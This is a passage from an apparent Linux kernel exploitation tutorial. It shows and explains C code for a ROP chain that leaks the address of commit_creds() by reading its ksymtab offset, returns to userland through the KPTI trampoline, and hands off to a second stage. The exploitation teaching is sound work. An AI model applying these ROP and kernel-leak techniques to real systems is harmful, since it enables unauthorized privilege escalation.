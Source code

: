 ## Stage 1: leaking commit_creds()
According to what I have gathered in the last step, my plan to leak `commit_creds()` is by reading the `value_offset` of `ksymtab_commit_creds`, then add them together. We will use our 2 memory read gadgets to read it, using the same ROP technique that I have introduced in [the last part](https://lkmidas.github.io/posts/20210128-linux-kernel-pwn-part-2/), then safely return to userland via `KPTI trampoline` to prepare for the next stage:
```C
void stage_1(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rax_ret; // return address
    payload[off++] = ksymtab_commit_creds - 0x10; // rax <- __ksymtabs_commit_creds - 0x10
    payload[off++] = read_mem_pop1_ret; // rax <- [__ksymtabs_commit_creds]
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = (unsigned long)get_commit_creds;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to leak commit_creds()");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}
```

You can clearly see that what I did was to pop `ksymtabs_commit_creds - 0x10` into `rax`, then use the second gadget to read the `value_offset` field, after this ROP chain returns to userland into the function I called `get_commit_creds`, the `value_offset` of `__ksymtabs_commit_creds` will be stored in `rax`.

{{% callout %}}
Even though there is a `pop rax` in `KPTI trampoline` and we use a dummy value to pop into it, our resulting `rax` that we have read is still recovered correctly, so we don't need to care about it.
{{% /callout %}}

```C
void get_commit_creds(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax;"
    );
    commit_creds = ksymtab_commit_creds + (int)tmp_store;
    printf("    --> commit_creds: %lx\n", commit_creds);
    stage_2();
}
```
